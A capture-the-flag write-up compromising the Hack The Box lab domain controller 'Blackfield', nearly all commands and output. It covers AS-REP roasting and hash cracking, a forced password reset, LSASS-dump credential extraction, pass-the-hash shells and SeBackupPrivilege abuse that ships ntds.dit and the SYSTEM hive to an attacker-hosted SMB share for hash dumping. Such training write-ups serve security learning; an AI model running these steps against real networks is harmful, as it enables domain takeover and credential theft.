

# Blackfield

This is the write-up for the box Blackfield that got retired at the 3rd October 2020.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.192    blackfield.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/blackfield.nmap 10.10.10.192
```

```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-09-16 18:41:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

According to the ports, this box is a **Windows Active Directory Domain Controller**, so lets put the domain name _blackfield.local_ into the _/etc/hosts_ file.

## Checking SMB (Port 445)

Enumerating SMB shares:
```
smbclient -L 10.10.10.192
```
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
forensic        Disk      Forensic / Audit share.
IPC$            IPC       Remote IPC
NETLOGON        Disk      Logon server share
profiles$       Disk
SYSVOL          Disk      Logon server share
```

Access to the SMB shares is possible without authentication, so **SMBmap** can show the permissions for the shares:
```
smbmap -H 10.10.10.192 -u 'anyone' -p ''
```
```
Disk           Permissions     Comment
----           -----------     -------
ADMIN$         NO ACCESS       Remote Admin
C$             NO ACCESS       Default share
forensic       NO ACCESS       Forensic / Audit share.
IPC$           READ ONLY       Remote IPC
NETLOGON       NO ACCESS       Logon server share
profiles$      READ ONLY
SYSVOL         NO ACCESS       Logon server share
```

There are read permissions on the share _profiles$_:
```
smbclient -t cifs '//10.10.10.192/profiles$'

smb: \> dir
```

It has a lot of user profiles, so it is best to mount it locally to make searching easier:
```
mount -t cifs '//10.10.10.192/profiles$' /mnt/blackfield/
```

As the folders are named after potential usernames, it may be useful to create a list out of them:
```
ls /mnt/blackfield/ > blackfield_users.list
```

Searching for files in the directories:
```
find . -type f
```

There are no files in them, but we have a list of usernames that can be enumerated.

## Checking Kerberos (Port 88)

With the tool [Kerbrute](https://github.com/ropnop/kerbrute) it is possible to validate usernames:
```
./kerbrute_linux_amd64 userenum --dc 10.10.10.192 -d blackfield.local blackfield_users.list
```
```
[+] VALID USERNAME:  audit2020@blackfield.local
[+] VALID USERNAME:  support@blackfield.local
[+] VALID USERNAME:  svc_backup@blackfield.local
```

Using the tool **Impacket-GetNPUsers** to check if these users have **Kerberos Pre-Authentication** enabled:
```
impacket-GetNPUsers -dc-ip 10.10.10.192 -usersfile valid_users.list blackfield/
```
```
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD:b0823507fb4343ea97081(...)
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```

The user _support_ has it enabled and we gained a Kerberos ticket, that needs to be cracked with **Hashcat**:
```
hashcat -m 18200 support_krb-ticket.hash /usr/share/wordlists/rockyou.txt
```

After a while it gets cracked and the password for the user _support_ is:
```
#00^BlackKnight
```

## Enumerating Active Directory

As this is an **Active Directory Domain Controller**, it is always recommended to gather information with **BloodHound**.
We do not have a shell on the box yet, but can use the Python based ingestor [BloodHound.py](https://github.com/fox-it/BloodHound.py) with the found credentials:
```
python3 bloodhound.py -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -c all
```

The created JSON files can be ingested into BloodHound to analyze the domain objects.
When checking the shortest path to the user _audit2020_, it shows that the user _support_ has the _ForceChangePassword_ permission:



Changing the password of _audit2020_ with **rpcclient**:
```
rpcclient -U support 10.10.10.192

rpcclient $> setuserinfo2 audit2020 23 'NewPass1'
```

If there is no error message from **rpcclient** it worked, but it can be tested by enumerating the SMB shares to see if there is a different result:
```
smbmap -H 10.10.10.192 -u 'audit2020' -p 'NewPass1'
```
```
Disk         Permissions     Comment
----         -----------     -------
ADMIN$       NO ACCESS       Remote Admin
C$           NO ACCESS       Default share
forensic     READ ONLY       Forensic / Audit share.
IPC$         READ ONLY       Remote IPC
NETLOGON     READ ONLY       Logon server share
profiles$    READ ONLY
SYSVOL       READ ONLY       Logon server share
```

This user has read access to the share _forensic_.

## Enumerating SMB Share

There are three directories in the share _forensic_:
```
smbclient -t cifs '//10.10.10.192/forensic' -U audit2020
```

- commands_output
- memory_analysis
- tools

Mounting it locally to make searching easier:
```
mount -t cifs -o 'username=audit2020,password=NewPass1' '//10.10.10.192/forensic' /mnt/blackfield/
```

In the directory _tools_ is software for Forensic collection and analysis:
- sleuthkit-4.8.0-win32
- sysinternals
- volatility

The directory _commands_output_ has outputs of the tools in txt format that may contain sensible information:
Other than one of the users in _domain_admins.txt_ there is no useful information:
```
Members
---------------------------------------
Administrator       Ipwn3dYourCompany
```

The directory _memory_analysis_ has several ZIP files and the file _lsass.zip_ is particularly interesting as the **LSASS process** is responsible for credentials in Windows.
```
unzip lsass.zip
```

It unpacks one file _lsass.DMP_, which is a **LSASS Dump file** that can be read with the Python implementation of **mimikatz** [pypykatz](https://github.com/skelsec/pypykatz):
```
pypykatz lsa minidump winlogon.DMP
```
```
Username: svc_backup
Domain: BLACKFIELD
LM: NA
NT: 9658d1d1dcd9250115e2205d9f48400d
SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
(...)
Username: Administrator
Domain: BLACKFIELD
LM: NA
NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```

There are NT hashes for the users _Administrator_ and _svc_backup_.
By using a **Pass-The-Hash** attack, it is not necessary to crack the hashes but instead authenticate directly with them:
```
crackmapexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d

WINRM       10.10.10.192    5985   DC01       [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```

The hash of _svc_backup_ works and it is possible to use the **WinRM** service with **Evil-WinRM** to get a shell on the box:
```
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

## Privilege Escalation

When looking at the privileges of the user _svc_backup_, the user has two important privileges:
```
whoami /all

SeBackupPrivilege         Back up files and directories  Enabled
SeRestorePrivilege        Restore files and directories  Enabled
```

These privileges are used to backup and restore files and can be abused to obtain files that are normally not readable for the user.

Starting a SMB server on our local client to backup files there:
```
impacket-smbserver -smb2support -user testuser -password SomePassword1 MyShare $(pwd)
```

Mounting the SMB share on the box:
```
net use x: \\10.10.14.9\MyShare /user:testuser SomePassword1
```

Using **wbadmin** on Windows to backup the _C:/Windows/ntds_ folder:
```
echo y | wbadmin start backup -backuptarget:\\10.10.14.9\MyShare -include:C:\Windows\ntds
```
```
A backup cannot be done to a remote shared folder which is not hosted on a volume formatted with NTFS/ReFS.
```

Unfortunately it can only backup to a NTFS mounted device, so lets create one on our local client and mount it.

### Creating NTFS Mount & Restoring Active Directory Database

Creating a NTFS partition file with `dd`:
```
dd if=/dev/zero of=ntfs.disk bs=1024M count=2

losetup -fP ntfs.disk
```

The _ntfs.disk_ partition is now mounted on _/dev/loop0_:
```
losetup -a

/dev/loop0: [2049]:3672291 (/htb/boxes/blackfield/ntfs.disk)
```

Making it a NTFS partition and mounting it on a local folder:
```
mkfs.ntfs /dev/loop0

mount /dev/loop0 smb/
```
```
mount | grep smb

/dev/loop0 on /htb/boxes/blackfield/smb type fuseblk
```

As the **Impacket-Smbserver** cannot handle NTFS, the integrated **Samba service** on Linux will be used.

Modifying _/etc/samba/smb.conf_ to use the NTFS share:
```
[BlackfieldShare]
   comment = Blackfield Share
   browseable = yes
   path = /htb/boxes/blackfield/smb
   guest ok = yes
   read only = no
```

Starting the SMB service:
```
service smbd start
```

Mounting the new share on the Windows box:
```
net use x: /delete

net use X: \\10.10.14.9\BlackfieldShare
```

Using **wbadmin** again to backup the _C:/Windows/ntds_ folder:
```
echo y | wbadmin start backup -backuptarget:\\10.10.14.9\BlackfieldShare\ -include:C:\Windows\ntds
```

This time it works and creates a _WindowsImageBackup_ folder on our local client.
Getting the version identifier of the backup:
```
wbadmin get versions
```
```
Backup location: Network Share labeled \\10.10.14.9\BlackfieldShare\
Version identifier: 09/16/2021-23:02
```

Now the **NTDS.dit** file can be restored with **wbadmin**:
```
echo y | wbadmin start recovery -version:09/16/2021-23:02 -itemtype:file -items:C:\Windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
```

After a while the file gets restored and stored in _C:\ntds.dit_ and can be downloaded to our local client:
```
copy ntds.dit X:
```

### Extracting Hashes from NTDS.dit

The **NTDS.dit** file is the Active Directory database, which is encrypted with the boot key in the registry hive _HKLM\SYSTEM_.

Saving and downloading the SYSTEM key:
```
reg save HKLM\SYSTEM system.hive

copy system.hive X:
```

Dumping the Active Directory database with **Impacket Secretsdump**:
```
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL
```
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
(...)
```

Using **Evil-WinRM** and the hash of _Administrator_ to gain a shell:
```
evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
```

It works and gives us a shell as _Administrator_!
